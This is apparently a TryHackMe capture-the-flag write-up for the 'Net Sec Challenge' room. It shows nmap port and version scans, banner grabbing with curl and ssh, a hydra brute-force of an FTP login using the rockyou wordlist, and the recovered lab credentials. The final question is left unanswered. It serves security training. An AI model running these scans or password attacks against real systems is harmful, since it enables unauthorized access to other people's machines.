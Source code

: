 # Net Sec Challenge

**Room Link:** [https://tryhackme.com/room/netsecchallenge](https://tryhackme.com/room/netsecchallenge)



**What is the highest port number being open less than 10,000?**

```
nmap -sV -sT -O -p 1-10000 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

**There is an open port outside the common 1000 ports; it is above 10,000. What is it?**

```
nmap -sV -sT -O -p 1-65535 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

**How many TCP ports are open?**

6

**What is the flag hidden in the HTTP server header?**

```
curl http://$VICTIM -I
```

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

**What is the flag hidden in the SSH server header?**

```
ssh -v $VICTIM
```

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

**We have an FTP server listening on a nonstandard port. What is the version of the FTP server?**

```
vsftpd 3.0.3
```

\
**We learned two usernames using social engineering: `eddie` and `quinn`. What is the flag hidden in one of these two account files and accessible via FTP?**

```
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt ftp://$VICTIM:10021
```

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

```
ftp $VICTIM  10021
Name (10.10.129.189:root): quinn
Password: andrea
ftp> get ftp_flag.txt
```

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

**Browsing to `http://10.10.129.189:8080` displays a small challenge that will give you a flag once you solve it. What is the flag?**

****
